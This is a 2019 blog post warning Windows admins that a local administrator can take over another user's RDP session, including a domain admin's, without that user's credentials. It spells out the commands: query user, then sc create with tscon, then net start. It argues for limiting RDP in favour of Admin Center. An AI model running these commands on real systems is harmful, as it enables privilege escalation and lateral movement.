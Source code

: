 ```yaml
---
title: 'How Secure is RDP?'
date: 2019-06-23T03:06:00.002-07:00
draft: false
url: /2019/06/hands-up-if-you-have-following.html
---
```


  

Hands up if you have following setup/practices in your organization:

*   A RDP server (Terminal server) that everyone can jump onto. Apart from the IT admins, some users have local admin rights on the box, just so they can run or configure a particular application.
    
*   To help troubleshooting an issue, your IT admins often RDP to servers directly from user's laptop, which the user is a local admin.
    
*   A group of users have local admin rights on a particular Windows box, and your Domain Admins also need to RDP to from time to time.
    

  

If any of above scenario applies to your organization, you might want to consider introducing some changes. This is why:

  

It is well known that Windows Remote Desktop Service has this feature that allows you to connect to another user's session. But obviously you will need to know the other user's credential to do that, right? No, not necessarily. With NT AUTHORITY/SYSTEM account, you can hijack the user's RDP session without the need for type in the credential. As mentioned in this blog post [https://doublepulsar.com/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6](https://doublepulsar.com/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6)  If you are a local admin on the server/desktop, you can easily hijack another user's RDP session (whether it's connected or disconnected) by run the following commands:

1.  Query User to get the SEESION Name and ID
    

C:\\Users\\ben>query user

USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME

tom-admin             rdp-tcp#19          4  Active         15  6/22/2019 5:14 AM

\>ben                   rdp-tcp#20          5  Active          .  6/22/2019 6:53 AM

2.  Use SC to create a service which will connect to the privileged account (tom-admin) RDP session from a non-privileged users (Ben) session. The service by default will use SYSTEM account to launch.
    

sc create rdphijack binpath="cmd.exe /k tscon 4 /dest:rdp-tcp#20"

3.  Start the service, and THAT'S IT!!!
    

net start rdphijack

This hack is so easy to achieve, a security novice like me was able to get it going in no time.  
  
Image the follow scenario: Your Domain Admin RDP to a jump/bastion server. He/She left the session there without properly logoff. A hacker compromised a normal domain user account. The account somehow has local admin rights on this server. The hacker will then be able to easily connect to the Domain Admin's session, without the need for any 3rd party tools! The worst thing is, this kind of hijack will not trigger any alarms in solutions like ATA.

  

I know there are also lots people still arguing whether this is an issue. I think the point is with this kind of flaw in place, we really need to avoid those scenario I mentioned in the beginning. As they can easily lead to a compromised DA account. RDP from the beginning isn't a very secure way of accessing servers. As a IT Admin, we should try minimize the use of it. Luckily, we now have System Admin Center. With that we can accomplish a lot admin tasks without the need of RDP to the remote servers.

  

On the other hand, I would love to hear your opinion or experience with System Admin Center. I am not aware of any security issues with the tool. But be sure do let me know if you know otherwise.

  

**Update:** I have tested this issue on Windows 2019 and was not able to replicate it. So here you go, just upgrade all your servers to 2019!